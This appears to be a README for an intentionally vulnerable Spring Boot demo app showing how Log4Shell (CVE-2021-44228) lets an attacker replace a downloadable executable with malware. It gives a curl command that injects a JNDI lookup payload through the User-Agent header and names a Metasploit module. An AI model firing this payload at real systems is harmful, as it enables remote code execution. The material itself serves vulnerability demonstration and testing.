

# Simple Spring Boot Web Application which is vulnerable to Log4Shell (CVE-2021-44228)

## Additional
> This is a fork of https://github.com/korteke/log4shell-demo

- This web application is for downloading a simple executable file from `/download` path.
This executable computes a sum of two entered integers.
- It demonstrates that exploiting Log4Shell vulnerability it is possible to change this executable, so
users would download a malware instead of expected program.
- Already infected versin of `summator` could be found in [`summator.c`](summator.c)

### How it can be used?
For example, using Metasploit module `exploit/multi/http/log4shell_header_injection`


## Original (from forked repo)

* Changed default logging framework from logback to log4j2

Application logs 'User-Agent' header, so one can test vulnerability with curl and e.g. [interactsh-service](https://github.com/projectdiscovery/interactsh):
```
curl -A '${jndi:ldap://interactsh-url/a}' http://target-service/
```
One should see DNS interaction at [app.interactsh.com](https://app.interactsh.com/).   


